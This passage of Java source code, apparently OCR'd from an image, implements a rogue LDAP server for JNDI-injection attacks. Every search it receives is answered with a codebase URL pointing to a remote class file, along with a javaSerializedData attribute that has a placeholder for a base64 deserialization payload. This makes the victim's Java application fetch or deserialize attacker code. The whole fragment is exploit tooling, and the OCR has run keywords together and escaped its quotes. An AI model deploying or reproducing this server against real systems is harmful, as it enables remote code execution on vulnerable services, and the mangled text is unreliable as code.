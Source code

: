 ```
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));


        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println(&#34;Listening on 0.0.0.0:&#34; + port); //$NON-NLS-1$
        ds.startListening();
    }


    privatestaticclassOperationInterceptorextendsInMemoryOperationInterceptor{


        private URL codebase;


        publicOperationInterceptor( URL cb ){
            this.codebase = cb;
        }


        @Override
        publicvoidprocessSearchResult( InMemoryInterceptedSearchResult result ){
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }


        protectedvoidsendResult( InMemoryInterceptedSearchResult result, String base, Entry e )throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(&#34;.class&#34;));
            System.out.println(&#34;Send LDAP reference result for &#34; + base + &#34; redirecting to &#34; + turl);
            e.addAttribute(&#34;javaClassName&#34;, &#34;foo&#34;);
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }


            e.addAttribute(&#34;javaSerializedData&#34;, Base64.decode(&#34;base64编码的payload&#34;));


            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```
